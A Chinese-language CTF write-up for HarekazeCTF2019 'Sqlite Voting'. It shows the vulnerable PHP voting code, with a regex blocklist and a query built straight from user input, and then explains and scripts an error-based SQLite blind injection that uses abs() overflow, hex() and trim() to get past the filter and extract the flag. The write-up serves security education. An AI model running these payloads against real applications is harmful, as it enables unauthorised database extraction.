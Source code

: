 # \[HarekazeCTF2019]Sqlite Voting

## \[HarekazeCTF2019]Sqlite Voting

## 考点

* sqlite注入
* sqlite盲注
* sqlite中`abs`整数溢出导致盲注&#x20;

## wp

打开靶机，看到投票的页面，并且给了源码

![](../.gitbook/assets/Harekaze2019\_vote\_1.png)

在 `schema.sql` 中发现了 `flag` 表

```sql
  DROP TABLE IF EXISTS `vote`;
  CREATE TABLE `vote` (
    `id` INTEGER PRIMARY KEY AUTOINCREMENT,
    `name` TEXT NOT NULL,
    `count` INTEGER
  );
  INSERT INTO `vote` (`name`, `count`) VALUES
    ('dog', 0),
    ('cat', 0),
    ('zebra', 0),
    ('koala', 0);
  
  DROP TABLE IF EXISTS `flag`;
  CREATE TABLE `flag` (
    `flag` TEXT NOT NULL
  );
  INSERT INTO `flag` VALUES ('HarekazeCTF{<redacted>}');
```

在 `vote.php` 页面 `POST` 参数 `id` ，只能为数字。 `vote.php` 是查询的功能，但是对参数进行了过滤。

```php
  function is_valid($str) {
    $banword = [
      // dangerous chars
      // " % ' * + / < = > \ _ ` ~ -
      "[\"%'*+\\/<=>\\\\_`~-]",
      // whitespace chars
      '\s',
      // dangerous functions
      'blob', 'load_extension', 'char', 'unicode',
      '(in|sub)str', '[lr]trim', 'like', 'glob', 'match', 'regexp',
      'in', 'limit', 'order', 'union', 'join'
    ];
    $regexp = '/' . implode('|', $banword) . '/i';
    if (preg_match($regexp, $str)) {
      return false;
    }
    return true;
  }
  
  $id = $_POST['id'];
  if (!is_valid($id)) {
    die(json_encode(['error' => 'Vote id contains dangerous chars']));
  }
  
  $pdo = new PDO('sqlite:../db/vote.db');
  $res = $pdo->query("UPDATE vote SET count = count + 1 WHERE id = ${id}");
  if ($res === false) {
    die(json_encode(['error' => 'An error occurred while updating database']));
  }
```

`UPDATE` 成功与失败分别对应了不同的页面，那么可以进行盲注，但是考虑到它过滤了 `'` 和 `"` 这就无法使用字符进行判断，`char` 又被过滤也无法使用 ASCII 码判断

<mark style="color:orange;">可以考虑使用</mark> <mark style="color:orange;"></mark><mark style="color:orange;">`hex`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">进行字符判断，将所有的的字符串组合用有限的 36 个字符表示</mark>

先考虑对 flag 十六进制长度的判断，假设它的长度为 `x`，`y` 表示 2 的 n 次方，那么 `x&y` 就能表现出 `x` 二进制为 1 的位置，将这些 `y` 再进行<mark style="color:orange;">或运算</mark>就可以得到完整的 `x` 的二进制，也就得到了 flag 的长度，而 `1<<n` 恰可以表示 2 的 n 次方

那么如何构造报错语句呢？在 `sqlite3` 中，`abs` 函数有一个整数溢出的报错，如果 `abs` 的参数是 `-9223372036854775808` 就会报错，同样如果是正数也会报错

![](../.gitbook/assets/Harekaze2019\_vote\_3.png)

判断长度的 payload : `abs(case(length(hex((select(flag)from(flag))))&{1<<n})when(0)then(0)else(0x8000000000000000)end)`

脚本

```python
  import requests
  
  url = "http://1aa0d946-f0a0-4c60-a26a-b5ba799227b6.node2.buuoj.cn.wetolink.com:82/vote.php"
  l = 0
  for n in range(16):
  	payload = f'abs(case(length(hex((select(flag)from(flag))))&{1<<n})when(0)then(0)else(0x8000000000000000)end)'
  	data = {
  		'id' : payload
  	}
  	
  	r = requests.post(url=url, data=data)
  	print(r.text)
  	if 'occurred' in r.text:
  		l = l|1<<n
  
  print(l)
```

假设长度是20，20的二进制是`10100`

```
10100 & 10 = 0          不进行或运算
10100 & 100 = 100       进行或运算，l=0|100=100
10100 & 1000 = 0        不进行或运算
10100 & 10000 = 10000    l=100|10000=10100
```

![](../.gitbook/assets/Harekaze2019\_vote\_2.png)

然后考虑逐字符进行判断，但是 `is_valid()` 过滤了大部分截取字符的函数，而且也无法用 ASCII 码判断

这一题对盲注语句的构造很巧妙，首先利用如下语句分别构造出 `ABCDEF` ，这样十六进制的所有字符都可以使用了，并且使用 `trim(0,0)` 来表示空字符

```
  # hex(b'zebra') = 7A65627261
  # 除去 12567 就是 A ，其余同理
  A = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'
  
  C = 'trim(hex(typeof(.1)),12567)'
  
  D = 'trim(hex(0xffffffffffffffff),123)'
  
  E = 'trim(hex(0.1),1230)'
  
  F = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'
  
  # hex(b'koala') = 6B6F616C61
  # 除去 16CF 就是 B
  B = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{C}||{F})'
```

然后逐字符进行爆破，已经知道 flag 格式为 `flag{}` ，`hex(b'flag{')==666C61677B` ，在其后面逐位添加十六进制字符，构成 paylaod

再利用 `replace(length(replace(flag,payload,''))),84,'')` 这个语句进行判断

如果 flag 不包含 payload ，那么得到的 `length` 必为 84 ，最外面的 `replace` 将返回 `false` ，通过 `case when then else` 构造 `abs` 参数为 `0` ，它不报错

如果 flag 包含 payload ，那么 `replace(flag, payload, '')` 将 flag 中的 payload 替换为空，得到的 `length` 必不为 84 ，最外面的 `replace` 将返回 `true` ，通过 `case when then else` 构造 `abs` 参数为 `0x8000000000000000` 令其报错

以上就可以根据报错爆破出 flag，最后附上出题人脚本

```python
# coding: utf-8
import binascii
import requests
URL = 'http://1aa0d946-f0a0-4c60-a26a-b5ba799227b6.node2.buuoj.cn.wetolink.com:82/vote.php'


l = 0
i = 0
for j in range(16):
  r = requests.post(URL, data={
    'id': f'abs(case(length(hex((select(flag)from(flag))))&{1<<j})when(0)then(0)else(0x8000000000000000)end)'
  })
  if b'An error occurred' in r.content:
    l |= 1 << j
print('[+] length:', l)


table = {}
table['A'] = 'trim(hex((select(name)from(vote)where(case(id)when(3)then(1)end))),12567)'
table['C'] = 'trim(hex(typeof(.1)),12567)'
table['D'] = 'trim(hex(0xffffffffffffffff),123)'
table['E'] = 'trim(hex(0.1),1230)'
table['F'] = 'trim(hex((select(name)from(vote)where(case(id)when(1)then(1)end))),467)'
table['B'] = f'trim(hex((select(name)from(vote)where(case(id)when(4)then(1)end))),16||{table["C"]}||{table["F"]})'


res = binascii.hexlify(b'flag{').decode().upper()
for i in range(len(res), l):
  for x in '0123456789ABCDEF':
    t = '||'.join(c if c in '0123456789' else table[c] for c in res + x)
    r = requests.post(URL, data={
      'id': f'abs(case(replace(length(replace(hex((select(flag)from(flag))),{t},trim(0,0))),{l},trim(0,0)))when(trim(0,0))then(0)else(0x8000000000000000)end)'
    })
    if b'An error occurred' in r.content:
      res += x
      break
  print(f'[+] flag ({i}/{l}): {res}')
  i += 1
print('[+] flag:', binascii.unhexlify(res).decode())
```

## 小结

1. sqlite3 盲注 bypass ，利用 replace() 和 length 进行爆破，trim() 替换空字符，trim() 和 hex() 构造字符，& 特性获取长度等等，在 mysql 中也存在整数溢出的现象
